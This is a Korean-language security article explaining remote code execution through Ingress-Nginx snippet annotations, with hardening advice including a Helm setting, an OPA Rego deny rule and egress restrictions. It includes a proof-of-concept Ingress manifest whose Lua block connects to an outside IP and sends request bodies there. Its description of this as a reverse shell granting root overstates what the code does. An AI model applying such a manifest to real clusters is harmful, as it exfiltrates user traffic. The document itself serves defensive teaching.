

## 서론

새벽 2시, 모니터링 대시보드의 경보음이 울리고 당신의 눈을 뜨게 합니다. 문제는 단순한 트래픽 스파이크가 아닙니다. 쿠버네티스 클러스터의 관리자 권한을 가진 Ingress-Nginx 컨트롤러 파드에서 의심스러운 바이너리가 실행되었다는 `Falco` 경보입니다. 공격자는 외부에서 직접 방화벽을 뚫지 않았습니다. 대신, 단순한 개발자 권한을 가진 계정을 탈취하여 악의적인 YAML 파일을 클러스터에 적용했고, 그 결과 클러스터 전체를 장악하는 역설적인 상황이 연출되었습니다.

이 시나리오는 현실에서 벌어지고 있는 공격의 축소판입니다. 쿠버네티스 환경에서 Ingress-Nginx는 단순한 트래픽 분배기가 아니라, 클러스터의 "현관문" 역할을 하는 핵심 컴포넌트입니다. 이 문의 열쇠를 쥐고 있는 컨트롤러가 설정 조작만으로 임의의 명령을 실행할 수 있다면, 내부망의 격리는 무용지물이 됩니다.

본 기사에서는 Ingress-Nginx의 취약점, 특히 Annotation 조작을 통한 원격 코드 실행(RCE) 위협의 메커니즘을 해부하고, 공격자가 이를 어떻게 악용하는지 시뮬레이션합니다. 그리고 단순한 패치를 넘어 아키텍처적 관점에서 이를 방어하는 실질적인 가이드를 제공합니다.

**⚠️ 윤리적 경고**: 본 문서에 포함된 모든 기술 정보, 코드, 및 공격 시나리오는 보안 연구와 방어 목적으로만 제공됩니다. 허가 없는 시스템 접근이나 공격 시도는 불법이며 엄격히 금지됩니다.

---

## 본론

### 공격 메커니즘: Ingress-Nginx의 어두운 이면

Ingress-Nginx 컨트롤러의 핵심 기능은 `Ingress` 리소스를 감시하고, 이를 Nginx 설정 파일(`nginx.conf`)으로 변환하여 리로드하는 것입니다. 이 과정에서 사용자는 `Annotation`을 통해 Nginx의 고급 기능을 제어할 수 있습니다.

문제는 이 `Annotation` 처리 과정에서 발생합니다. 취약한 버전의 컨트롤러는 특정 Annotation 키를 검증 없이 Nginx 설정 템플릿에 직접 삽입합니다. 공격자는 이를 악용하여 Nginx의 `Lua` 스크립트 기능이나 `configuration-snippet` 기능을 오용하여, 트래픽 처리 과정에서 임의의 OS 명령을 실행하도록 강제할 수 있습니다. 이는 Server-Side Template Injection (SSTI)의 일종으로 볼 수 있습니다.

### 공격 시나리오 시각화

아래 다이어그램은 권한이 제한된 공격자가 어떻게 클러스터 관리자 권한을 탈취하는지 보여줍니다.



### 기술적 심층 분석 및 PoC

Ingress-Nginx는 `OpenResty`를 기반으로 하므로 Lua 스크립트 실행이 가능합니다. 공격자는 `nginx.ingress.kubernetes.io/configuration-snippet` 또는 `server-snippet` Annotation을 사용하여 악의적인 Lua 코드를 삽입합니다.

**PoC: 역접속(Reverse Shell) 시도**

아래 예시는 공격자가 외부 서버(`192.168.1.100`)로 역접속을 시도하는 악의적인 Ingress 매니페스트입니다.

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: malicious-ingress
  namespace: default
  annotations:
    nginx.ingress.kubernetes.io/rewrite-target: /
    # ⚠️ 취약점 악용: configuration-snippet을 통한 Lua 코드 실행
    nginx.ingress.kubernetes.io/configuration-snippet: |
      by_lua_block {
        local sock = ngx.socket.tcp()
        local ok, err = sock:connect("192.168.1.100", 4444)
        if not ok then
          ngx.say("failed to connect: ", err)
          return
        end
        -- 간단한 쉘을 구현하거나 파일을 탈취하는 로직이 여기에 들어갈 수 있음
        ngx.req.read_body()
        local body = ngx.req.get_body_data()
        sock:send(body)
        sock:close()
      }
spec:
  ingressClassName: nginx
  rules:
  - host: exploit.example.com
    http:
      paths:
      - path: /
        pathType: Prefix
        backend:
          service:
            name: legitimate-service
            port:
              number: 80
```

이 YAML이 클러스터에 적용되는 순간, `exploit.example.com`으로 들어오는 요청을 처리하는 과정에서 Ingress 컨트롤러는 `192.168.1.100:4444`로 TCP 연결을 시도합니다. 이를 통해 공격자는 컨트롤러 파드의 네트워크 네임스페이스에 진입할 수 있으며, 컨테이너의 권한(종종 `root` 또는 고권한)을 탈취하게 됩니다.

### 취약한 설정 vs 안전한 설정

Ingress-Nginx를 배포할 때 기본값으로 제공되는 설정은 편의성을 위해 보안을 희생하는 경우가 많습니다. 아래 표는 위험 요소를 비교합니다.

| 설정 항목 | 취약한 설정 (Default/Legacy) | 안전한 설정 (Hardened) | 비고 |
| :--- | :--- | :--- | :--- |
| **Snippet 허용** | `allow-snippet-annotations: true` (또는 기본값) | `allow-snippet-annotations: false` | Annotation을 통한 설정 삽입을 원천 차단해야 함 |
| **컨트롤러 권한** | `ClusterAdmin` 또는 너무 과한 RBAC | 최소 권한의 ServiceAccount | Ingress 생성/조회 권한만 필요함 |
| **NetworkPolicy** | 없음 (Open) | Egress 트래픽 제한 | 공격자가 C2 서버로 연결하는 것을 차단 |

---

## 방어 가이드: 실전 대응 전략

이론적인 공격을 이해했다면, 이제 실제로 우리의 클러스터를 어떻게 방어할지 알아보겠습니다.

### 1. 즉시 조치 (Emergency Response)

현재 운영 중인 클러스터가 위험에 처해 있다면 다음 단계를 즉시 수행해야 합니다.

- **취약점 점검**: Ingress-Nginx 버전 확인. CVE-2021-25742, CVE-2021-25745, CVE-2023-5044 등 대응 패치가 적용되었는지 확인.

- **Snippet 기능 차단**: Helm 차트 업그레이드 시 `controller.allowSnippetAnnotations` 값을 `false`로 명시하여 설정합니다.

```bash
helm upgrade ingress-nginx ingress-nginx/ingress-nginx \
  --set controller.allowSnippetAnnotations=false \
  --reuse-values
```

- **RBAC 감사**: Ingress 리소스를 생성/수정할 수 있는 주체를 관리자와 신뢰할 수 있는 CI/CD 시스템으로만 제한하세요. 단순 개발자에게는 `NetworkPolicy` 등으로 제한된 권한만 부여해야 합니다.

### 2. 장기 대책 및 아키텍처 개선

단순히 버전을 올리는 것만으로는 부족합니다. Zero Trust 원칙을 도입해야 합니다.

- **OPA/Gatekeeper 정책 적용**: 클러스터 내에서 `Ingress` 리소스 생성 시 특정 Annotation이 포함되어 있으면 이를 거부하는 정책을 강제합니다.

**OPA Rego 예시 (Snippet 금지):**

```rego
package k8sdeny

deny[msg] {
    input.kind == "Ingress"
    # metadata.annotations의 키에 snippet이 포함된 경우 차단
    some key
    input.metadata.annotations[key]
    contains(key, "snippet")
    msg := sprintf("Snippet annotation '%s' is not allowed for security reasons.", [key])
}
```

- **NetworkPolicy 구현**: Ingress-Nginx 컨트롤러 파드에서 나가는 Egress 트래픽을 차단하세요. 웹 서버는 외부로 나가는 연결이 필요 없는 경우가 많습니다(K8s API 서버 통신 제외). 공격자가 역접속(Reverse Shell)을 시도하더라도 목적지로 패킷이 나가지 못하게 막아야 합니다.

---

## 결론

Ingress-Nginx의 RCE 취약점은 단순한 소프트웨어 버그가 아닙니다. 그것은 **"편의성과 보안의 트레이드오프"**에서 오는 구조적 문제입니다. 우리는 개발자의 편의를 위해 Annotation을 통해 Nginx 설정을 자유롭게 제어할 수 있는 기능을 제공해왔고, 공격자는 그 뚫린 문을 통해 침입했습니다.

핵심은 클러스터 관리자가 **"네임스페이스 관리자"**와 **"클러스터 관리자"**의 권한을 철저히 분리하는 것입니다. 개발자가 자신의 애플리케이션을 배포하기 위해 Ingress를 수정할 때, 그 행위가 컨트롤 플레인의 보안을 무너뜨리지 않도록 보안 계층(Security Layer)을 추가해야 합니다.

방어는 끊임없는 확인에서 시작됩니다. 오늘 귀하의 Ingress 설정에 `snippet` 허용 옵션이 켜져 있는지, 그리고 누가 Ingress를 수정할 수 있는지 한 번쯤 돌아보시길 권장합니다.

### 참고자료

- [Kubernetes Ingress Nginx Security Hardening Guide](https://kubernetes.github.io/ingress-nginx/user-guide/nginx-configuration/configmap/)

- [CVE-2021-25742 Detail](https://nvd.nist.gov/vuln/detail/CVE-2021-25742)

- [OPA Gatekeeper Library for Kubernetes](https://github.com/open-policy-agent/gatekeeper-library)
